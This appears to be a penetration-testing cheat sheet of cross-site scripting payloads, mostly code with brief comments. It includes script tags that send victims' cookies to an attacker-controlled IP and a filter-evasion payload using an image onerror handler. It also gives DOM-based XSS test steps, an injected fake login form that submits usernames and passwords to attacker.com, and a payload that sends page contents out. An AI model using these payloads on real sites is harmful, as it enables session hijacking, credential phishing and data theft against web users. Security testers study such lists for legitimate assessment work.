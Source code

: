 Steal Cookies
-----------------------
```
# Will not work if HttpOnly is in cookie header (modern browsers will block this)
# Use ruby SSL server or apache with SSL enabled for SSL connections
# Start Python Web Server
python -m SimpleHTTPServer 80
# Start PHP Web Server
php -S xxx.xxx.xxx.xxx:<port>
# Attack Script
<script>document.location="http://192.168.0.60/?c="+document.cookie;</script>
<script>new Image().src="http://192.168.0.60/index.php?c="+document.cookie;</script>
```
Mouseover test
-----------------------
```javascript
<a href="" onmouseover="javascript:alert('HackerOne MkSecurity Dom XSS');">Click for Detail</a>
```

Use to test if script "<script>alert(123)</script>" tags are being blocked
-----------------------
```javascript
ackerokm7x<img src=a onerror=alert(1)>y09fr
ackerokm7x<img%20src=a%20onerror=alert(1)>y09fr
```

Testing for DOM based XSS
-----------------------
```
Modern browsers are not vulnerable? Must use Internet Explorer for proof of vuln.
Open Internet Explorer
Press F12
Select the "Emulation" tab
Select "Document Mode" "7" (Try other versions if one does not work)
Reload the page

The "#" symbol in this case means pass everything after it to the DOM
http://xxx.xxx.xxx.xxx/xss/example9.php#<script>alert(123)</script>
```


Submits credentials to the www.attacker.com (Embeds Login Screen inside application)
-----------------------
```
# php -S xxx.xxx.xxx.xxx:80
# or
# service apache2 start 
# tail -f /var/log/access.log
<h3>Please login to proceed</h3> <form action=http://www.attacker.com>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```

Collect page source code (may contian sensitive data)
----------------------------
```
<script>new Image().src="https://www.attacker.com/bogus.php?output="+document.body.innerHTML</script>
```
